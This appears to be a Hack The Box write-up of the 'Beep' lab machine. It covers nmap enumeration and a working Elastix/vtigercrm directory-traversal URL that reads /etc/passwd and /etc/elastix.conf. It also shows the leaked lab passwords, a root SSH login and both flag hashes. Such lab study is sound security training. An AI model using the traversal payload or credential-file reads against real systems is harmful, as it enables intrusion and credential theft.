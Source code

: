 # Beep
>Author : Xyan1d3
>Date : 29th June 2021
>IP : 10.10.10.7
>OS : Linux
>Difficulty : Easy

# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Tue Jun 29 23:21:56 2021 as: nmap -sC -sV -v -oN nmap/beep 10.10.10.7
Nmap scan report for beep.htb (10.10.10.7)
Host is up (0.078s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://beep.htb/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: TOP PIPELINING STLS IMPLEMENTATION(Cyrus POP3 server v2) UIDL RESP-CODES APOP LOGIN-DELAY(0) USER AUTH-RESP-CODE EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ATOMIC Completed RENAME OK URLAUTHA0001 X-NETSCAPE SORT=MODSEQ NAMESPACE LISTEXT SORT CONDSTORE IDLE IMAP4 CATENATE ANNOTATEMORE STARTTLS ACL NO CHILDREN THREAD=ORDEREDSUBJECT LIST-SUBSCRIBED UIDPLUS QUOTA MULTIAPPEND MAILBOX-REFERRALS THREAD=REFERENCES RIGHTS=kxte IMAP4rev1 UNSELECT BINARY ID LITERAL+
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a 82b6 cf7e 1afa 5284 1c91 60c8 fbc8
|_SHA-1: 800a c6e7 065e 1198 0187 c452 0d9b 18ef e557 a09f
|_ssl-date: 2021-06-29T17:55:23+00:00; +3s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 2s
```

## Web Enumeration
We visit the site and find that `http://10.10.10.7` redirects to `https://10.10.10.7`.
SSL Certificate does not leak any sensitive information.

We visit the site and find out that this is running `elastix` and gives us a login page.
![[Pasted image 20210629235208.png]]

We could go and search for any possible exploits for this `elastix` thingy.
![[Pasted image 20210629235625.png]]
We have one with an LFI vulnerability which could allow us to get some files from the box.

We run the exploit but, The exploit does not work as it should.
But, We could try this exploit manually by copying the link and using it on the browser manually.
![[Pasted image 20210629235908.png]]

We visit the site and find out that we can print out the `/etc/passwd`.
URL : `view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action`
![[Pasted image 20210630000036.png]]

We coul try to find out the credentials of the `elastix` which we find out by doing a little bit of googling.
![[Pasted image 20210630003939.png]]
The location of the credentials are in `/etc/elastix.conf`.

We try to leak the file using the LFI , We found earlier.
![[Pasted image 20210630004258.png]]

We get some credentials from that files.

|Note|Password|
|--|--|
|mysqlrootpwd|jEhdIekWmdjE|
|cyrususerpwd|jEhdIekWmdjE|
|amiadminpwd|jEhdIekWmdjE|

# Initial FootHold as root
We could use the credentials we extracted from the `/etc/elastix.conf` to ssh into the box as the user `root`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/beep]
└──╼ # ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

We see that we cannot ssh as it has some issues with the initial cipher exchange.
![[Pasted image 20210630010143.png]]
Source : https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0/340853

```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/beep]
└──╼ # ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jun 29 22:33:08 2021 from 10.10.14.11

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

## Getting the User Flag
We can get our `user.txt` from the `/home/fanis/user.txt`.
```python
[root@beep ~]# cd /home/fanis/
[root@beep fanis]# ls -l
total 4
-rw-rw-r-- 1 fanis fanis 33 Jun 29 20:12 user.txt
[root@beep fanis]# cat user.txt 
c625230d5ff9d2425fbc8c070ea36056
```

## Getting the Root Flag
We can get our `root.txt` from the `/root/root.txt`.
```python
[root@beep fanis]# cd /root/
[root@beep ~]# ls -l
total 16248
-rw------- 1 root root     6025 Apr  7  2017 anaconda-ks.cfg
-r-xr-xr-x 1 root root   190461 Aug 10  2011 elastix-pr-2.2-1.i386.rpm
-rw-r--r-- 1 root root    18433 Apr  7  2017 install.log
-rw-r--r-- 1 root root        0 Apr  7  2017 install.log.syslog
-rw-r--r-- 1 root root        1 Apr  7  2017 postnochroot
-rw------- 1 root root       33 Jun 29 20:12 root.txt
-r-xr-xr-x 1 root root 16358730 Oct 31  2011 webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt 
2626f36c75ad47ed7f1b84ee91062ca1
```